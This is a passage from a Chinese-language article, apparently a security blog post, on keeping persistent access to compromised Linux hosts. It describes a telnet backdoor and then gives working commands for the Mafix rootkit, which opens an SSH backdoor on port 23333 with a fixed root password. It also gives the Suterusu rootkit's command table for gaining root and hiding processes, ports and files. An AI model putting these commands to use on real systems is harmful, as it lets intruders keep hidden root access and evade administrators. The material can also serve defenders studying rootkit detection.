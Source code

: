 ![p8](http://drops.javaweb.org/uploads/images/1b8d14d0efe6fa2fb86b41892924cb172c7818ab.jpg)

2、telnet连接

![p9](http://drops.javaweb.org/uploads/images/fbff76876774fad4aa12afabce2eb5688dafa793.jpg)

*   缺点：重启就会失效,需要放入启动项
*   优点：相比上面都是需要ssh相关或者是有一个低权限维持才能发挥的一个后门,这个是直接开放一个独立的端口

发现：其实感觉修改一下进程名,发现还是有点麻烦

![p10](http://drops.javaweb.org/uploads/images/b0df89ef98caf22603e72c30e4bd0f6fe6f19dc3.jpg)

0x08 Mafix + Suterusu rookit
=====

1、Mafix

```
./root lolloltest 23333

```

这样就会产生一个端口为23333,root密码也可以用lolloltest登陆的ssh,端口不隐藏

![p11](http://drops.javaweb.org/uploads/images/4b9ee5fbe9588cbf481f43fb0bc991e18f5dbdc0.jpg)

这时候就可以用Suterusu配合使用

2、Suterusu

功能表：

```
Get root
$ ./sock 0
Hide PID
$ ./sock 1 [pid]
Unhide PID
$ ./sock 2 [pid]
Hide TCPv4 port
$ ./sock 3 [port]
Unhide TCPv4 port
$ ./sock 4 [port]
Hide TCPv6 port
$ ./sock 5 [port]
Unhide TCPv6 port
$ ./sock 6 [port]
Hide UDPv4 port
$ ./sock 7 [port]
Unhide UDPv4 port
$ ./sock 8 [port]
Hide UDPv6 port
$ ./sock 9 [port]
Unhide UDPv6 port
$ ./sock 10 [port]
Hide file/directory
$ ./sock 11 [name]
Unhide file/directory
$ ./sock 12 [name]

```
